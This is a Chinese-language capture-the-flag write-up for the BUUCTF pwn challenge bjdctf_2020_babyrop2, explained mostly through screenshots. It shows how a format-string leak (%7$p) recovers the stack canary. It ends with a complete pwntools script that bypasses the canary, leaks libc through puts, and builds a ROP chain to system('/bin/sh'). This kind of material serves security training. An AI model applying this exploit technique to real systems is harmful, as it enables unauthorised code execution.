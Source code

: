 ### Printf 指定地址泄露 Canary

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b42be6d0e0a243d40070c9.png)

先 checksec 一下发现开启了 Canary 及 NX

![](https://pic1.imgdb.cn/item/67b42c4fd0e0a243d40070e8.png)

反编译先看 main 函数

![](https://pic1.imgdb.cn/item/67b42c7dd0e0a243d40070fb.png)

首先调用了 init 函数打印了两句话

![](https://pic1.imgdb.cn/item/67b42cb7d0e0a243d4007113.png)

再是 gift 函数，这里明显存在字符串格式化漏洞

![](https://pic1.imgdb.cn/item/67b42d42d0e0a243d4007134.png)

最后是 vuln 函数

![](https://pic1.imgdb.cn/item/67b42d72d0e0a243d4007139.png)

buf 缓冲区存在溢出

![](https://pic1.imgdb.cn/item/67b42d7cd0e0a243d400713a.png)

尝试常规方法泄露但不行

![](https://pic1.imgdb.cn/item/67b42e33d0e0a243d400715d.png)

输入 %n$p（用法参考 2.1）

可以看到偏移是 6

![](https://pic1.imgdb.cn/item/67b42f2fd0e0a243d4007183.png)

使用 gdb 调试发现在字符串下面一行就是 Canary 的值

![](https://pic1.imgdb.cn/item/67b430a5d0e0a243d40071e6.png)

所以输入 %7$p 就能泄露 Canary 的值

![](https://pic1.imgdb.cn/item/67b43228d0e0a243d4007239.png)

![](https://pic1.imgdb.cn/item/67b43244d0e0a243d400723f.png)

64 位系统还需要一个 pop rdi;ret

![](https://pic1.imgdb.cn/item/67b4329fd0e0a243d400724a.png)

Canary 保护会从 rbp-4 或者 rbp-8 的位置取出并与 fs/gs 寄存器对应位置的值进行比较

如果不相等就会执行 __ stack_chk_fail 函数，这个函数强行停止程序运行并发出警告，从而阻止栈溢出攻击

所以在最后填上 Canary 的值来绕过

```python
from pwn import *
from LibcSearcher import *

r = remote('node3.buuoj.cn',26842)
elf = ELF('./bjdctf_2020_babyrop2')

payload = '%7$p'

r.sendline(payload)
r.recvuntil('0x')

cancry = int(r.recv(16),16)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x0400993
main_addr = elf.symbols['main']
vuln_addr = 0x0400887

# 'a' * (0x20 - 8) + p64(cancry)：绕过 cancry
# p64(0)：覆盖 ebp
payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln_addr)

r.recvuntil('story!\n')
r.sendline(payload)

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
libc = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - libc.dump('puts')
system_addr = base_addr + libc.dump('system')
shell_addr = base_addr + libc.dump('str_bin_sh')

r.recvuntil('story!\n')

payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(shell_addr) + p64(system_addr) + p64(main_addr)

r.sendline(payload)
r.interactive()
```

